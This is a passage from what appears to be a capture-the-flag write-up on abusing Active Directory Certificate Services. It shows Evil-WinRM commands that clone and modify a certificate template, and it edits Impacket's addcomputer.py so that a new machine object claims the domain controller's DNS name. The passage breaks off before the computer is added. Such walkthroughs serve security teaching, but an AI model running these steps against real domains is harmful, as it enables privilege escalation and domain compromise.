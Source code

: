     displayname : RAS and IAS Server
    displayname : OCSP Response Signing
    displayname : Kerberos Authentication
    displayname : Coder-WebServer  
    

There’s a bunch, but Computer seems like the one to copy from. I’ll export it
to a JSON file:

    
    
    *Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json
    

Now I can read that back in, and change that flag:

    
    
    *Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json
    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Enrollment-Flag' = 0x80000
    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod.json
    

Now I create the template:

    
    
    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName oxdf -Publish -JSON (cat computer-mod.json -raw)
    

#### Create Malicious Machine Object

[Impacket](https://github.com/SecureAuthCorp/impacket) has a script to add a
computer object to a domain, but it doesn’t by default give the user control
over the DNS name. I’ll make a copy of that script:

    
    
    oxdf@hacky$ which addcomputer.py 
    /home/oxdf/.local/bin/addcomputer.py
    oxdf@hacky$ cp ~/.local/bin/addcomputer.py addcomputer.py
    

The string `dns` shows up at line 229:

    
    
    oxdf@hacky$ cat addcomputer.py | grep -n dns
    229:                    'dnsHostName': '%s.%s' % (computerHostname, self.__domain),
    

I’ll change the script so that the DNS hostname is always DC01:

    
    
                    ucd = {
                        'dnsHostName': '%s.%s' % ('DC01', self.__domain),
                        'userAccountControl': 0x1000,
                        'servicePrincipalName': spns,
                        'sAMAccountName': self.__computerName,
                        'unicodePwd': ('"%s"' % self.__computerPassword).encode('utf-16-le')
                    }
    

Now I’ll add the computer:
